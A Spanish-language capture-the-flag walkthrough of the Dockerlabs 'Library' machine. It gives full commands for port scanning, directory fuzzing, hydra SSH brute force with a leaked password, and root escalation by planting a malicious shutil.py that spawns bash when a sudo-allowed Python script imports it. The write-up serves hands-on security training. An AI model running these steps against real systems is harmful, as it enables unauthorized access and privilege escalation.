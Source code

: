 # Máquina Library

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

En el puerto 80 nos encontramos con la página por defecto de **apache**. Aplicamos **Fuzzing** con **gobuster**:

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,txt,html,php.bak
-------------------------------------------------------------------------
/index.php            (Status: 200) [Size: 26]
/index.html           (Status: 200) [Size: 10671]
/javascript           (Status: 301) [Size: 313]
/server-status        (Status: 403) [Size: 275] 
```

Encontramos un **index.php** un poco extraño que nos proporciona una cadena de caracteres:

![Pasted image 20240512222036](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/71132b41-7738-4d9b-a760-32a6ed11e477)

```
JIFGHDS87GYDFIGD
```

***

## Explotación

Aplicamos fuerza bruta con **hydra**. Para una lista de usuarios, probaremos la cadena anterior como contraseña de estos usuarios:

```shell
hydra -L /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2 -t 4 -I
----------------------------------------------------------------------
[22][ssh] host: 172.17.0.2   login: carlos   password: JIFGHDS87GYDFIGD
```

Nos conectamos con el user **carlos**:

```shell
ssh carlos@172.17.0.2
```

Estamos dentro !

***

## Escalada de privilegios

```shell
sudo -l
--------------------
User carlos may run the following commands on 415aa702590c:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```

![Pasted image 20240512223354](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/9a2b18cc-31df-47b7-8315-d755fad04535)

Vemos que podemos ejecutar un script de **python** como el usuario **root** que está utilizando la librería **shutil** sobre la que posiblemente podamos aplicar un **Library Path Hijacking**: Creamos en el directorio **opt** una librería maliciosa para que el script vaya a buscar nuestra librería falsa antes que la original.

```shell
touch shutil.py
```

Contenido de **shutil.py**:

```python
import os
os.system("bash")
```

Ejecutamos el script:

```shell
sudo /usr/bin/python3 /opt/script.py
```

```shell
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximos en el sistema !
